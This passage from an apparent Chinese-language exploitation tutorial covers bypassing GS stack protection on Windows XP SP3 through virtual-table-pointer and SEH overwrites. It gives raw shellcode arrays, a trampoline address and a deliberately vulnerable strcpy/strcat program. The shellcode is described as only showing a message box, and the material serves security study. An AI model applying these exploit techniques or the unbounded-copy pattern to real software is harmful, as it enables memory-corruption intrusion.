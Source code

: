 ```cpp
		"\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B"
		"\x3C\x7B\x8B\x59\x1C\x03\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D"
		"\x6A\x0A\x38\x1E\x75\xA9\x33\xDB\x53\x68\x6B\x61\x6F\x6F\x68\x4D"
		"\x69\x73\x61\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90" 
		);

	return 0;
}
```

### 说明

- 注意：测试环境为`Windows XP SP3`，编译版本为`Release`版本，编译器为`Visual Studio 2008`，编译选项为`禁用编译优化/0d`
- shellcode的前四个字节是以下汇编代码的地址，如果系统不是`Windows XP SP3`就需要修改

```x86asm
pop edi
pop esi
retn
```

- 覆写C++的虚表指针，使其指向跳板，如果需要平衡堆栈则寻找系统动态链接库中的一段指令作为跳板跳入shellcode
- 返回地址是垃圾指令则令其尽量不影响shellcode的执行，此处`0x817C`则是`cmp`指令，则此段汇编指令尽量让其不发生数据访问异常
- 此段shellcode将会弹窗

## 利用SEH突破GS

> GS并没有保护SEH，所以可以覆写SEH来实现劫持

### 代码

```cpp
#include<stdafx.h>
#include<string.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\xA0\xFE\x12\x00"//address of shellcode;

void test(char * input)
{
  char buf[200];
  strcpy(buf,input);
  strcat(buf,input);
}

void main()
{
  test(shellcode);
}
```
